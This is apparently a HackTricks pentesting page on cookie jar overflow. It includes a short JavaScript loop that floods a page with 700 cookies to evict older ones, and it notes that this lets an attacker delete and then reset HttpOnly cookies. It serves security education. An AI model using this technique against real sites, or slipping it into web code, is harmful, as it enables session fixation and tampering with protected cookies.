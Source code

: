 {{#include ../../banners/hacktricks-training.md}}

The browsers have a **limit on the number of cookies** that they can store for a page. Then, if for some reason you need to **make a cookie disappear**, you can **overflow the cookie jar** as the oldest ones will be deleted before:

```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
  document.cookie = `cookie${i}=${i}; Secure`
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
  document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
}
```

Notice, that third party cookies pointing to a different domain won't be overwritten.

> [!CAUTION]
> This attack can also be used to **overwrite HttpOnly cookies as you can delete it and then reset it with the value you want**.
>
> Check this in [**this post with a lab**](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/).

{{#include ../../banners/hacktricks-training.md}}
